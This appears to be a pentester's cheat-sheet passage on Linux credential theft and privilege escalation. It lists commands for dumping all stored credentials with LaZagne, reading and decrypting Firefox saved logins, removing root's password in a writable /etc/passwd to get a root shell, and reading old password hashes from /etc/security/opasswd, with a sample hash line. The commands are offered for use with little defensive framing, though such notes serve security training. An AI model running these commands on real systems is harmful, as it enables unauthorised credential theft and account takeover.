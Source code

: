 ```shell-session
python3 laZagne.py all
```

### <mark class="hltr-orange">Browsers</mark>
#### <mark class="hltr-grey">Firefox Stored Credentials</mark>

```shell-session
ls -l .mozilla/firefox/ | grep default 
```

```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#### <mark class="hltr-grey">Decrypting Firefox Credentials</mark>

```shell-session
python3.9 firefox_decrypt.py
```

#### <mark class="hltr-grey">Browsers - LaZagne</mark>

```
python3 laZagne.py browsers
```


## <mark class="hltr-cyan">Passwd, Shadow & Opasswd</mark>

### <mark class="hltr-orange">Editing /etc/passwd</mark>
If you have write permission on /etc/passwd you can edit it to gain access to the root account

Before:
```shell-session
root:x:0:0:root:/root:/bin/bash
```

After:
```shell-session
root::0:0:root:/root:/bin/bash
```

now you can log in as root
```
su root
```

### <mark class="hltr-orange">Opasswd</mark>

```shell-session
sudo cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```
